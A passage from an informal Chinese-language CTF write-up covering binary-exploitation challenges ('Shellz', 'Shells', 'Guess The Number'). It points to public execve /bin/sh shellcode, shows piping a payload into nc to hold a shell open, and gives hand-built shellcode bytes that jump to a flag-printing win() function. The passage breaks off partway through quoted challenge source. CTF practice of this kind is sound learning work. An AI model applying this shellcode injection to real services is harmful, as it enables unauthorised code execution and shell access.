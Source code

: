 最后用别的wp的脚本试了也不行？？？然后发现它返回的字符串前面的`BNZQ:` 也算。。。好叭窝瞎x

### Shellz

看着这程序极度怀疑自己没学过西加加（虽然这是C（也没学过汇编（虽然有好多种汇编（摔（爆哭

然后。。。恩完全不造咋做鸭

看了三个不一样的wp，居然都是从[这个网站](http://shell-storm.org/shellcode/)上找的shellcode？

好叭看了各种然后瞎几把分析，大概是 `void (*func)() = (void (*)())stuff;` 这句会给输入创建一个函数指针所以就能执行了？然后就去获得shell？

[Tiny Execve sh Shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php) / [execve /bin/sh](http://shell-storm.org/shellcode/files/shellcode-575.php) / [Linux x86 execve("/bin/sh")](http://shell-storm.org/shellcode/files/shellcode-811.php) 这些小于40bytes的都可以

保持输入后shell不断开：

`python -c "print('......')" > payload`

`cat payload - | nc  ......` 用那个小横线

### Shells

源代码里关键部分

```
 //TODO: Ask IT why this is here
 void win(){
     system("/bin/cat ./flag.txt");    
 }
```

可以用GDB或者HexDump找到函数位置在0x08048540

payload：

```
0:  68 40 85 04 08          push   0x8048540
5:  c3                      ret
```

可以直接16进制看也可以用[radare2](https://github.com/radare/radare2) 形成shellcode

最后 `python -c "print('\x68\x40\x85\x04\x08\xC3')" | nc .....`

### Guess The Number

源码

```
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
```